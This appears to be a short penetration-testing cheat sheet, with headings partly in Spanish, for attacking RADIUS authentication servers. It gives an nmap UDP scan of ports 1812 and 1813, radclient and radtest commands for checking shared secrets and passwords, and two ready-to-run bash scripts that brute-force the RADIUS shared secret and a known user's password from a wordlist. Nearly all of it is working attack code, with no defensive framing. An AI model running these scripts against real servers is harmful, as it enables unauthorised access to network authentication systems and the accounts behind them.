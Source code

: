 ## Recon
```
nmap -sU IP -p 1812,1813
```

## Testear valores
### Test secrets
```
echo "Message-Authenticator = 0x00" | radclient IP:1812 auth SecretToTest
```

### Test pass
```
radtest user pass IP 10 Secret
```
## Bruteforce
### Secret Bruteforce
```bash
#! /bin/bash
while read password; do
    radtest knowuser knowpass IP 10 $password > /dev/null
    if [ "$?" = "0" ]; then
        echo "Correct RADIUS secret: $password "
        break
    else
        continue
    fi
done < $1
```
### Password Bruteforce
```bash
#! /bin/bash
while read password; do
    radtest knowuser $password IP 10 knownsecret > /dev/null
    if [ "$?" = "0" ]; then
		    echo "Correct users password: $password "
		    break
	  else
		    continue
	  fi
done < $1
```
